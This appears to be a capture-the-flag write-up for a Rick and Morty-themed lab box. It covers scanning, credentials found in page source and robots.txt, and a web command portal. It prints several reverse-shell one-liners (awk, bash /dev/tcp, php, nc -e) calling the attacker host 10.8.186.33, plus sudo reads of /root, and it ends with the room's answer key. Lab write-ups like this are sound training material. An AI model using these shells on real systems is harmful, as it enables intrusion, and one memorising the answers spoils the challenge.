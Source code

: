 ``IP Address = 10.10.12.75``

# Nmap Scan Result

## Open Ports:

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```
### Operating System: Ubuntu


Command: `nmap -sTV -O -sC {IP Address}`


### Nikto Scan

```
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.12.75
+ Target Hostname:    10.10.12.75
+ Target Port:        80
+ Start Time:         2021-05-02 01:37:19 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 426, size: 5818ccf125686, mtime: gzip
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ Cookie PHPSESSID created without the httponly flag
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.php: Admin login page/section found.
+ 7889 requests: 0 error(s) and 9 item(s) reported on remote host
+ End Time:           2021-05-02 02:31:46 (GMT-4) (3267 seconds)
------------------------------------------------------------------
```

Command Syntax: `nikto -host http://{IP Address}`


## Target WebServer Enumeration

Main page of the website have comment on its source code that is 

Username: `R1ckRul3s`

that looks usefull. target website page or subdirectry robots.txt have rendom string that is`Wubbalubbadubdub`This is Suspicious  

## Directry Scanning 
```
/assets
this have some Common Thing use in website nothing more
robots.txt 
This have some random string that is like password but not sure
```
As nikto finds `login.php` so go for it.They required username and password we found username and some random string try for it 

It works and they provide some command execution portal and this is vulnerable and good for us

Use ls and there is first ingreden `Sup3rS3cretPickl3Ingred.txt` use cat to view the content of the file. looks they use some filters for command so how we see the content of the file. There are some other command also like `more`,`head`,`tail`,`less` use it find which will works

There is not need for getting rev-shell but i can try to get reverse shell for furthure Post Exploitation

## Getting reverse shell 

start a lisener on your machine with netcat and pawncat which you use

unfortunativly i can't get the reverse shell and 

but by checking the source code of the portal.php file i found some base64 encode string 

by decoding it this is "rabithole"

After try alot of reverse shell code i get connetion with this reverse shell code

``awk 'BEGIN {s = "/inet/tcp/0/10.8.186.33/9001"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null``

now we can try to find other ingredent and they are in /home/rick directry its name is second ingredients
**Note: they have spaces in there name so use the quotes in the command for see this file like the following command**

``less /home/rick/"second ingredients"``

This give me reveseshell but this only replicat the webshell in your terminal this is not normal shell and there you use all commands that are terminate like cat,more,head. i try to gain proper reverse shell which the following code but i cant. php and netcat number 4 shell work but that are not that usefull.

```
1) bash -i >& /dev/tcp/10.8.186.33/5555 0>&1

2) php -r '$sock=fsockopen("10.8.186.33",5555);exec("/bin/sh -i <&3 >&3 2>&3");'

3) nc -e /bin/sh 10.8.186.33 5555

4) rm -f /tmp/p; mknod /tmp/p p && nc 10.8.186.33 5555 0/tmp/p
```

So, now i using the web shell for finding the ingredent so first i use the following command for suid 

``fing / -perm /4000 2>/dev/null``

They show me the following result 
```
/snap/core/5742/bin/mount
/snap/core/5742/bin/ping
/snap/core/5742/bin/ping6
/snap/core/5742/bin/su
/snap/core/5742/bin/umount
/snap/core/5742/usr/bin/chfn
/snap/core/5742/usr/bin/chsh
/snap/core/5742/usr/bin/gpasswd
/snap/core/5742/usr/bin/newgrp
/snap/core/5742/usr/bin/passwd
/snap/core/5742/usr/bin/sudo
/snap/core/5742/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/5742/usr/lib/openssh/ssh-keysign
/snap/core/5742/usr/lib/snapd/snap-confine
/snap/core/5742/usr/sbin/pppd
/snap/core/6350/bin/mount
/snap/core/6350/bin/ping
/snap/core/6350/bin/ping6
/snap/core/6350/bin/su
/snap/core/6350/bin/umount
/snap/core/6350/usr/bin/chfn
/snap/core/6350/usr/bin/chsh
/snap/core/6350/usr/bin/gpasswd
/snap/core/6350/usr/bin/newgrp
/snap/core/6350/usr/bin/passwd
/snap/core/6350/usr/bin/sudo
/snap/core/6350/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/6350/usr/lib/openssh/ssh-keysign
/snap/core/6350/usr/lib/snapd/snap-confine
/snap/core/6350/usr/sbin/pppd
/bin/umount
/bin/fusermount
/bin/ntfs-3g
/bin/ping
/bin/su
/bin/ping6
/bin/mount
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/at
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
```

There i see sudo have suid bit on by using this i can see the root folder igredent. first see what is the name of the file of third igredent using 

``/usr/bin/sudo ls -al /root``

Using this i come to know the file name is `3rd.txt` so just using the following command and i see the ingredent

`/usr/bin/sudo less /root/3rd.txt`




Here we find all the ingredent 
```
Q1:What is the first ingredient Rick needs?
A: mr. meeseek hair

Q2:Whats the second ingredient Rick needs?
A:1 jerry tear

Q4:Whats the final ingredient Rick needs?
A:fleeb juice
```
